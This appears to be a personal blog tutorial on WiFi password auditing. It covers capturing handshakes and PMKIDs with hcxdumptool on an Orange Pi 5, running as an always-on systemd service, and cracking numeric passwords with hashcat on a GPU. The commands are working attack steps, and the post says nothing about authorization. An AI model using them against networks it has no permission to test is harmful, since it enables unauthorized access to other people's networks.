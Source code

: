 +++
title = "Simple WiFi pentest"
date = "2023-11-16T20:36:04+04:00"
author = "gals"
authorTwitter = "" #do not include @
cover = ""
tags = ["wifi", "kali", "gentoo", "orange pi5"]
keywords = ["wifi", "kali", "gentoo", "orange pi5"]
description = "Simple WiFi pentest"
showFullContent = false
readingTime = true
hideComments = true
color = "" #color from the theme settings
+++

# Simple WiFi pentest

## Hardware
1. Orange Pi 5 + TP-Link Archer T2U PLUS [RTL8821AU] with [Kali Linux](https://github.com/leeboby/kali-images). Don't forget to do `rm /boot/*cloud-arm64* && /usr/sbin/u-boot-update`  after `apt update && apt upgrade` otherwise you can't boot after reboot
2. Gentoo with GeForce RTX 3070 Lite Hash Rate

## Orange PI 5

### Prepare

```bash
apt update
apt install tshark hcxdumptool hcxtools iw
```

### Run

```bash
# Setup monitor mode
ip link set wlan0 down && iw wlan0 set monitor none && ip link set wlan0 up
# Run tool for hcxdumptool 6.3.1 (C) 2023 ZeroBeat
hcxdumptool -i wlan0 -w wlan0.pcapng
# wait
```

You can use systemd service like this

```
[Unit]
Description=WiFi scan

[Service]
Type=simple
Environment=TERM=xterm
ExecStartPre=/usr/bin/ip link set wlan0 down
ExecStartPre=/usr/sbin/iw wlan0 set monitor none
ExecStartPre=/usr/bin/ip link set wlan0 up
ExecStartPre=-/usr/bin/bash -c '/usr/bin/mv /var/log/wifi-dump/wlan0.pcapng /var/log/wifi-dump/wlan0-$(date +%%Y%%m%%d-%%H%%M%%S).pcapng'
ExecStart=bash -c 'TERM=xterm; /usr/bin/hcxdumptool -i wlan0 -w /var/log/wifi-dump/wlan0.pcapng'
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
```


After or during waiting
```bash
# Dump to hc22000 file format, watch into 'PMKID (best)'
hcxpcapngtool -o wlan0.hc22000 wlan0.pcapng
# Get info from wlan0.hc22000
hcxhashtool -i wlan0.hc22000 --info=stdout
```

You can run something like this `bettercap -iface wlan0 -eval 'wifi.recon on; set ticker.period 5; set ticker.commands "wifi.show"; ticker on'` at the same time for watching in real time.



## Gentoo

### Prepare

```bash
eselect repository enable pentoo
eix-sync
eix-update
emerge hcxtools
```

### Try to find something interesting

Simple ans stupid brute force with all digest from 000000000 (minimal wifi password length) to 999999999999 (like mobile phone number)

```shell
hashcat -m 22000 wlan0.hc22000 -a3 --increment -w3 \
  --increment-max 11 \
  --increment-min 8 \
  '?d?d?d?d?d?d?d?d?d?d?d'
# press s to check status
# run any time if you want get current status with the found
hashcat -m 22000 wlan0.hc22000 --show
```

**Timings:**
- 8 digits ~ 18 minutes
- 9 digits ~ 3 hours
- 10 digits ~ 1 day, 5 hours
- 11 digist ~ 12 days, 9 hours
